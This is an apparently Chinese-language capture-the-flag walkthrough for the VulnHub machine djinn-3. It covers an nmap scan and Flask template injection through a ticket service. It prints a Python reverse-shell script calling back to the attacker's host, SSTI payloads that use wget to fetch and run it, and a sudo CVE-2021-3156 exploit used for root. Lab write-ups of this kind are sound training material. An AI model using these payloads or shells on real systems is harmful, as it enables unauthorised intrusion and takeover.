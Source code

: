 ```yaml
---
layer: article
title: Vulnhub	492	djinn-3
tags: pentest vulnhub Walkthrough
---
```

考点：flask

靶机链接：<https://www.vulnhub.com/entry/djinn-3,492/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| djinn-3    | 10.0.2.10 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.10
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:44:23:ac:b2:d9:82:e7:90:58:15:5e:40:23:ed:65 (RSA)
|   256 ae:04:85:6e:cb:10:4f:55:4a:ad:96:9e:f2:ce:18:4f (ECDSA)
|_  256 f7:08:56:19:97:b5:03:10:18:66:7e:7d:2e:0a:47:42 (ED25519)
80/tcp    open  http    lighttpd 1.4.45
|_http-title: Custom-ers
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.45
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
31337/tcp open  Elite?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL: 
|     username>
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     username> password> authentication failed
|   Help: 
|     username> password>
|   RPCCheck: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
|   SSLSessionReq: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0xd7 in position 13: invalid continuation byte
|   TerminalServerCookie: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|_    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte

```

### WEB测试

查看5000端口，感觉应该是存在flask SSTI漏洞

31337端口需要用户名密码，guest/guest 连上，发现可以发内容，并显示在5000端口

### 漏洞发现

![1](https://static.iihack.com/vulnhub/492/1.png)

![2](https://static.iihack.com/vulnhub/492/2.png)

还可以执行命令了

本地http服务目录存放反弹shell脚本`r.py`

```python
import sys, socket, subprocess, os

port = int(sys.argv[1])
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.0.2.15', port))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])

```

```bash
# 下载
> open                                                      
Title: 8
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('wget http://10.0.2.15/reverse/r.py -O r.py').read()}}
# 运行
> open                                                      
Title: 9
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('python3.6 r.py 444').read()}}
```



## 获得权限

### 靶机测试

本地监听，点击5000端口的链接，获得反弹shells

![3](https://static.iihack.com/vulnhub/492/3.png)

## 提权

使用CVE-2021-3156提权

```bash
$ git clone https://github.com/worawit/CVE-2021-3156
$ cd CVE-2021-3156
$ python exploit_nss.py 
```

![4](https://static.iihack.com/vulnhub/492/4.png)
